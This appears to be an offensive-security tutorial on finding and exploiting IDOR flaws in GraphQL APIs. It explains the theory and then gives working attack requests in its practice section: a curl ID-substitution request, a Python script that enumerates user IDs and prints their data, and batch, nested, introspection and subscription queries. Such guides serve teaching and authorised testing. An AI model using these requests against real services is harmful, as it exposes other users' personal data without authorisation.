

# GraphQL IDOR

## Context

In this guide, we will explore how to identify and exploit Insecure Direct Object References (IDOR) vulnerabilities within GraphQL APIs. To effectively exploit these vulnerabilities, you should be familiar with the structure of GraphQL schemas and the process of crafting and sending GraphQL queries. An understanding of object identifiers in web applications is also essential.

## Theory

### IDOR in the GraphQL Context

GraphQL IDOR occurs when access controls are missing or insufficient on object identifiers exposed via GraphQL queries or mutations. Given GraphQL's flexible querying capabilities and nested object structures, the attack surface for IDOR vulnerabilities is substantial. 

An attacker can exploit GraphQL IDOR by manipulating object identifiers in the queries to access unauthorized data. This vulnerability often arises due to the failure of implementing adequate server-side verification checks, leaving applications reliant on client-side enforcement, which is easily bypassed.

### GraphQL ID Enumeration and Query Manipulation

Attackers can enumerate object IDs using predictable patterns or by leveraging GraphQL introspection to discover potential targets. Once valid IDs are identified, attackers substitute these IDs within queries to access data belonging to other users. The absence of server-side authorization checks permits attackers to circumvent any restrictions that might otherwise be enforced through the client-side. 

### Advanced GraphQL Attack Vectors

GraphQL protocols can be exploited through more advanced techniques:

- **Batch Queries and Nested Requests:** Attacks involving batch querying can be particularly damaging, allowing a single request to retrieve multiple unauthorized objects simultaneously.
  
- **GraphQL Introspection:** This feature may be used to enumerate object types and their relationships, facilitating the discovery of eligible object IDs for attack.
  
- **Subscriptions:** GraphQL subscriptions might inadvertently expose real-time data associated with specific object IDs, enabling live access when unauthorized.

### GraphQL IDOR Attack Flow

The process for conducting a GraphQL IDOR attack can be visualized as follows:



## Practice

### Manual ID Substitution in GraphQL Queries

- Execute the following command to test ID substitution for unauthorized access:

    ```bash
    curl -X POST https://target/graphql -H 'Content-Type: application/json' --data '{"query":"{ user(id: \"2\"){ id, email, name } }"}'
    ```

- A successful response reveals another user's data:

    ```text
    { "data": { "user": { "id": "2", "email": "victim@example.com", "name": "Victim User" } } }
    ```
- **Outcome:** By manipulating GraphQL query IDs, attackers can access data belonging to another user without authorization.

### Automated ID Enumeration and Batch Query Exploitation

- Utilize an automated script to enumerate user IDs and extract data:

    ```python
    import requests
    url = 'https://target/graphql'
    for i in range(1, 10):
        query = '{ user(id: "%d"){ id, email, name } }' % i
        r = requests.post(url, json={'query': query})
        if 'email' in r.text:
            print(r.text)
    ```

- **Outcome:** This automation allows bulk unauthorized data retrieval via continuous ID enumeration.

### Exploiting Nested Object References

- Test nested object access by querying nested entities:

    ```graphql
    { post(id: "5") { id, title, author { id, email } } }
    ```

- **Outcome:** Successfully accessing nested sensitive data signifies vulnerabilities within object references.

### Leveraging GraphQL Introspection for ID Discovery

- Perform introspection to enumerate fields:

    ```graphql
    { __type(name: "User") { fields { name type { name kind } } } }
    ```

- **Outcome:** This technique can help identify exploitable object types and fields for further IDOR attacks.

### Batch Querying Multiple Objects

- Use a batch query to access multiple user data records:

    ```graphql
    { user1: user(id: "2") { id, email } user2: user(id: "3") { id, email } }
    ```

- **Outcome:** By accessing multiple objects in one batch, simultaneous unauthorized data retrieval is achievable.

### Testing GraphQL Subscriptions for IDOR

- Assess subscriptions for potential IDOR exploitation:

    ```graphql
    subscription { messageReceived(userId: "2") { id, content } }
    ```

- **Outcome:** Subscription-based IDOR allows unauthorized real-time data access, highlighting insecure subscription configurations.

## Tools

- **Burp Suite**
- **GraphiQL**
- **Postman**
- **GraphQL Voyager**
- **InQL**
- **GraphQLmap**